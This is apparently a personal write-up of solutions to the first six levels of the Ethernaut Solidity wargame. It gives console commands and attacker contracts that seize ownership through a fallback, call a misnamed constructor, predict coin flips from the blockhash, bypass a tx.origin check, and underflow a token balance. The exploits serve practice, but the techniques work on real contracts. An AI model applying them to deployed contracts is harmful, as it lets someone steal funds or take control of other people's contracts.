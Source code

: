 # Ethernaut

The Ethernaut is a Web3/Solidity based wargame inspired on overthewire.org, played in the Ethereum Virtual Machine. Each level is a smart contract that needs to be 'hacked'.
Here are my solutions for each level.

## 0.Hello Ethernaut

```
> contract.info()
< [[PromiseResult]]: "You will find what you need in info1()."

> contract.info1()
< [[PromiseResult]]: "Try info2(), but with \"hello\" as a parameter."

> contract.info2("hello")
< [[PromiseResult]]: "The property infoNum holds the number of the next info method to call."

> contract.abi

> let x = await contract.infoNum()

> x.toString()
< '42'

> contract.info42()
< [[PromiseResult]]: "theMethodName is the name of the next method."

> contract.theMethodName()
< [[PromiseResult]]: "The method name is method7123949."

> contract.method7123949()
< [[PromiseResult]]: "If you know the password, submit it to authenticate()."

> contract.password()
< [[PromiseResult]]: "ethernaut0"

> contract.authenticate("ethernaut0")
```

Submit the instance by clicking the orange button.

```(-(-_(-_-)_-)-) Well done, You have completed this level!!!```

## 1. Fallback
```
> contract.contribute({value:toWei("0.0001", "ether")})

> web3.eth.sendTransaction({to:"0x3D585bb9145ca9101D5EdA79E138D854242FF90C", 
	value:toWei("0.0001", "ether"), from:"0x76F2CCD13DB4D70DFB2114704BD9d4d6326bafA0"})
	
> contract.owner()
< [[PromiseResult]]: "0x76F2CCD13DB4D70DFB2114704BD9d4d6326bafA0"

> contract.withdraw()

> getBalance("0x3D585bb9145ca9101D5EdA79E138D854242FF90C")
< [[PromiseResult]]: "0"
```

Submit the instance by clicking the orange button.

```\,,/(◣_◢)\,,/ Well done, You have completed this level!!!```

## 2. Fallout
```
> contract.Fal1out()
```
Submit Instance

```☜Ҩ.¬_¬.Ҩ☞ Well done, You have completed this level!!!```

## 3. CoinFLip

```
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0;

import "./CoinFlip.sol";
import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/math/SafeMath.sol";

contract Win {
    
    using SafeMath for uint256;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    CoinFlip public coinflip;
    constructor(address conFlipAddress) public {
        coinflip = CoinFlip(conFlipAddress);
    }
    // address public coinflip_add = 0x0Fd8F81a893762013486d74b6b61fA0704d07D4b;
    
    function _guess() public {
        uint256 blockValue = uint256(blockhash(block.number.sub(1)));
        uint256 coinFlip = blockValue.div(FACTOR);
        bool side = coinFlip == 1 ? true : false;
        coinflip.flip(side);
    }
}
```
Copy the Coin Flip contract into CoinFlip.sol and deploy win.sol. Call _guess() 10 times.

> contract.consecutiveWins()

## 4. Telephone 
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Telephone.sol";

contract Hack {
    Telephone public tele;

    constructor(address tele_add) public {
        tele = Telephone(tele_add);
    }

    function change_owner(address _owner) public {
        tele.changeOwner(_owner);
    }
}

```
```
ʕ•̫͡•ʕ*̫͡*ʕ•͓͡•ʔ-̫͡-ʕ•̫͡•ʔ*̫͡*ʔ-̫͡-ʔ Well done, You have completed this level!!!
```

## 5. Token

> contract.transfer("Instance address",21)

Submit the instance 
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```







